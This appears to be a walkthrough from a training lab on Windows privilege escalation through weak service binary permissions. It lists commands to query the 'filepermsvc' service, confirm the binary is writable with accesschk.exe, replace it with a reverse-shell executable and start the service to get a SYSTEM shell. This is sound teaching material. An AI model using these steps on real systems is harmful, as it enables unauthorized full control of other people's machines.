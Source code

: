 Query the "filepermsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).

```
sc qc filepermsvc
```

![[Pasted image 20240527224037.png]]


Using accesschk.exe, note that the service binary (BINARY_PATH_NAME) file is writable by everyone:

```
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

![[Pasted image 20240527224102.png]]


Copy the reverse.exe executable you created and replace the filepermservice.exe with it:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

![[Pasted image 20240527224128.png]]


Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```
net start filepermsvc
```

![[Pasted image 20240527224203.png]]

![[Pasted image 20240527224217.png]]


Answer the questions below

Read and follow along with the above.